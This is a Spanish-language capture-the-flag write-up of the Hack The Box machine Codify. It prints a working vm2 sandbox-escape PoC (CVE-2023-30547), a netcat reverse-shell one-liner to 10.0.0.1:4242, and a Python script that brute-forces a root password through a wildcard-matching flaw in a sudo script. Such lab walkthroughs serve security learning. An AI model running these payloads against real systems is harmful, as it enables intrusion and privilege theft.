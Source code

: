```yaml
---
title: Maquina Codify
published: true
---
```


![](../assets/Images/Codify/Logo.png)

En este articulo estaremos resolviendo la maquina **codify** de **hackthebox**
<br><br>

* * *

## [](#Escaneo)Reconocimiento

Empezamos el reconocimiento con un escaneo de puertos con la herramienta **nmap** 

![](../assets/Images/Codify/Portscan.png)

Vemos algunos puertos abiertos, podemos ver el puerto 80, lo que nos dice que hay un servicio web al que hecharemos un ojo mas tarde.

Buscaremos un poco mas de informacion corriendo un escaneo con nmap para detectar la version y servicio que corren bajo estos puertos.

![](../assets/Images/Codify/VersionScan.png)

Vemos que no sigue el redirect, esto es por que hay que agregar el objetivo al archivo /etc/hosts

![](../assets/Images/Codify/hosts.png)

Bien, Veamos lo que hay en la pagina web.

![](../assets/Images/Codify/page1.png)

Vemos que es una especie de compilador online para node.js, veamos si encontramos algo mas interesante...
<br><br><br>
* * *
<br><br>
## [](#Access-1)Primer Acceso

![](../assets/Images/Codify/page2.png)

Navegando un poco por la pagina vemos que hay una nota que dice que la pagina usa una libreria llamada vm2, y si seguimos el enlace nos deja ver la version de esta libreria que se esta usando.

![](../assets/Images/Codify/vm2version.png)

<br><br>

Buscando en internet encontre que esta libreria era vulnerable, y se podia aprovechar de una falla en la logica de sanitizacion para ganar **Ejecucion Remota de comandos(RCE)**, la vulnerabilidad es la [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

viendo esta vulnerabilidad, encontramos un PoC que probaremos en el editor de la pagina para ver si nos funciona, el PoC es el siguiente:
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
<br><br>

![](../assets/Images/Codify/Poc.png)

Usamos el PoC que conseguimos y en la parte resaltada en la imagen de arriba, es en donde inyectaremos el comando que querramos ejecutar, al hacer un par de pruebas nos damos cuenta de que si funciona y hemos conseguido ejecucion remota de comandos.

> Es hora de entablarnos una reverse shell.

Para esto hay muchas maneras diferentes y muchos payloads que podemos utilizar, te recomiendo hechar un vistaso a [esta](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) pagina, en esta hay muchas maneras de entablarse reverse shells con diferentes herramientas.

En este caso yo usare esta:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
![](../assets/Images/Codify/sendShell.png)
![](../assets/Images/Codify/Access1.png)
<br><br><br>
* * *
<br><br>
## [](#Access-2)Flag 1

Hemos conseguido acceso a la maquina, ahora, nos toca hacerle tratamiento a la tty, para poder estabilizar la shell y tener una shell interactiva.

podemos hacer esto ejecutando los siguientes pasos:

1. Ejecutamos el comando `script /dev/null -c bash`
2. Ponemos la conexion es segundo plano con ctrl + z
3. Ejecutamos el comando `stty raw -echo; fg`
4. Escribimos "reset"
5. Definimos el tipo de terminal con `export TERM=xterm`
6. Definimos el tipo de shell con `export SHELL=bash`

listo, ahora deberiamos tener una shell interactiva en la que podamos movernos comodamente y hacer ctrl + l, o ctrl + c sin perder la shell.

<br><br>

Navegando un poco por el sistema encontre un archivo interesante:

![](../assets/Images/Codify/db-found.png)

Lo descargare en mi sistema para poder analizarlo mejor

![](../assets/Images/Codify/getdb.png)

![](../assets/Images/Codify/filedb.png)

Viendo el tipo de archivo veo que es una base de datos sqlite, usare una herramienta online para ver el contenido de esta.

La herramienta que use es [esta](https://sqliteviewer.app/)

![](../assets/Images/Codify/dbopen.png)

Pues aqui claramente podemos apreciar el nombre de usuario que habiamos visto de antes y un hash, que corresponde al password de este usuario.

al crackear este hash y obtener el password, podremos logearnos al sistema como el usuario joshua, a travez de ssh.

![](../assets/Images/Codify/joshualog.png)
![](../assets/Images/Codify/flag1.png)

<br><br><br>
* * *
<br><br>
## [](#Access-root)Escalado de privilegios

Ya conseguimos nuestra primera flag, llegados a este punto solo queda escalar privilegios, para esto podriamos usar herramientas como Linpeas o LinEnum, pero veamos que podemos conseguir por nuestra cuenta, primero veamos si podemos ejecutar algun comando como root.

![](../assets/Images/Codify/sudo-l.png)

Y miren lo que encontramos, vemos que podemos correr un script llamado mysql-backup.sh

veamos que contiene este script:

![](../assets/Images/Codify/script1.png)

Analizando el script pude encontrar ciertas practicas inseguras, en el condicional la comparacion esta declarada dentro de doble llaves [[]] esto es inseguro por que al estar declarada de esta manera, puede interpretar expresiones regulares, lo que aprovecharemos nosotros para poder conseguir la contrasena, para esto usaremos un programa en python3.

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```
Corremos este programa en la maquina victima, y de esta manera obtendremos la contrasena de el usuario root y podremos hacer `su root` para poder obtener acceso privilegiado al sistema.

![](../assets/Images/Codify/rootpass.png)
![](../assets/Images/Codify/flag2.png)
<br><br><br>
* * *
<br><br>
## [](#Conclusion)Conclusion

Esta fue la maquina **Codify** de hackthebox, espero te fuera de ayuda este writeup, nos vemos en la siguiente maquina!!
<br><br><br>

<style>
img {
    border-radius: 30px;
}
</style>
